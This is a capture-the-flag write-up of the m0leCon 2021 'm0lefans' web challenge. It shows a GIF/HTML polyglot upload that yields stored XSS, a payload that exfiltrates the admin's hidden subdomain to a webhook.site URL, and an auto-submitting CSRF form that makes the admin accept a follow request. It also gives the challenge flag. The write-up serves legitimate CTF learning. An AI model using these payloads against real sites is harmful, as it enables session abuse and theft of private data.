



# m0leCon 2021 CTF Teaser - m0lefans

## Challenge

I was concerned my friends would find my private page, so I created my own clone where you can only follow people who give you their profile's link!

[Go](https://m0lecon.fans/), post photos of your private ventilator without fear!


### Metadata

- Tags: `web`
- Author: *Alberto247*, *Xato*
- Points: 149
- Solves: 32

## Solution

From the description it was unclear what was the goal of the challenge, however the `Report a post to the admin` button gave it away. Somehow we have to run JS in the browser of the admin and steal something.

After registering a user it, we saw that the `HttpOnly` is present on the cookies, therefore it is unaccessible from JavaScript. At this point our guess was to somehow view the posts of the administrator.

The first step was to find an XSS vulnerability on the website, we tried everything and could not pop an alert. After several trials and tons of shit posts. We realized the check on the image upload validates the magic bytes. We created a file containing

```
GIF89a
<html>
<script>alert(1)</script>
</html>
```

Then uploaded it viewed the source and realized that the images are uploaded in a `.htm` file. We opened the link and the alert popped.

```html
// Part of the source code responsible for loading the image.
<div class="row image" style="background-image: url(https://m0lecon.fans/static/media/posts/190ccb58-7e01-4550-b411-64cb1b2633a7.htm)"></div>
```



We got it we can run JS code in the browser of the Administrator the next step was to find the subdomain of the administrator. Luckily the `https://m0lecon.fans/feed/report` has a button (`Profile`), which goes to the account settings, and the page is on the same domain where we can run JS code. Therefore we need to fetch the site and extract the subdomain, then send it to our webhook.

We opened a webhook on `webhook.site` crafted the payload uploaded it to the site then sent it to the admin. The payload was the following:

```html
GIF89a
<html>
<script>
fetch("https://m0lecon.fans/feed/report").then(data => data.text()).then(data=>{fetch("https://webhook.site/b4a87d53-9573-4cfc-a296-f61155266214?url=" + data.match(/https:\/\/(.*?)\/profile/)[0])})
</script>
</html>
```

Then a new request popped up on our webhook.



From this request we learned that the subdomain of the admin was `y0urmuchb3l0v3d4dm1n`.

We opened the page of the admin and followed him (`Follow for free`), the last step was to accept our request. We tested how it worked with two test accounts.

We tried to accept the follow request with fetch but it did not work out. In the end we used the following payload to accept the request.

```html
GIF89a
<html>
<body>
<form class="" id="accepter" action="https://y0urmuchb3l0v3d4dm1n.m0lecon.fans/profile/request" method="post">
    <input type="hidden" name="id" value="7">
    <input type="submit" value="Accept" class="btn btn-light py-2 ml-3">
</form>
</body>
<script>
document.getElementById("accepter").submit()
</script>
</html>
```

We send the link to the admin, then opened up the profile of the admin and the flag awaited us.



The flag is `ptm{m4k3_CSP_r3ports_gr3a7_4gain!}`.